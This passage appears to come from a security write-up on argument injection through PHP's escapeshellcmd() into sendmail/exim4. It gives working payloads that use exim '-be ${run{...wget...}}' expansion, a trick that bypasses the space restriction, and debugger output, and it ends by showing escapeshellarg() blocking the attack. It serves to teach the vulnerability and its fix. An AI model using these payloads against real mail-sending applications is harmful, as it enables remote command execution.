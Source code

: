 This is thanks to escapeshellcmd() escaping every forbidden character inside closed quotes. If we try to use the same payload without quotes we will encounter  another problem:

```bash
Payload:
ss@email.com -be ${run{/usr/bin/wget http://127.0.0.1/test}}

Debugger output:
root@ubuntu:/home/ubuntu# cat /tmp/outgoing-command 
Received: /usr/sbin/sendmail
Received: -fss@email.com
Received: -be
Received: ${run{/usr/bin/wget
Received: http://127.0.0.1/test}}
Received:
Received:
```

The space that let us performing the Argument Injection now is backfiring our ability to exploit it. An awesome study by Legal Hackers about  the target binary properties let us know that we can exploit the use of characters inside environmental variables strings of exim4 (more details in  the previous link).

```bash
Payload:
ss@email.com -be ${run{/usr/bin/wget${substr{10}{1}{$tod_log}}http://127.0.0.1/test}}

Debugger output:
root@ubuntu:/home/ubuntu# cat /tmp/outgoing-command 
Received: /usr/sbin/sendmail
Received: -fss@email.com
Received: -be
Received: ${run{/usr/bin/wget${substr{10}{1}{$tod_log}}http://127.0.0.1/test}}
Received:
Received:
```

Finally we achieve a successful Argument Injection exploitation.

## Proof of concept: 99% safe?

In the last part of this PoC we use the right escape function to avoid the exploitation of these dangerous functions: escapeshellarg(). Add single quotes around the string so that neither spaces or any special bash symbols are interpreted by shell/bash.

```bash
Payload:
ss@email.com -be ${run{/usr/bin/wget${substr{10}{1}{$tod_log}}http://127.0.0.1/test}}

Debugger output:
root@ubuntu:/home/ubuntu# cat /tmp/outgoing-command 
Received: /usr/sbin/sendmail
Received: -fss@email.com -be ${run{/usr/bin/wget${substr{10}{1}{$tod_log}}http://127.0.0.1/test}}
Received:
```
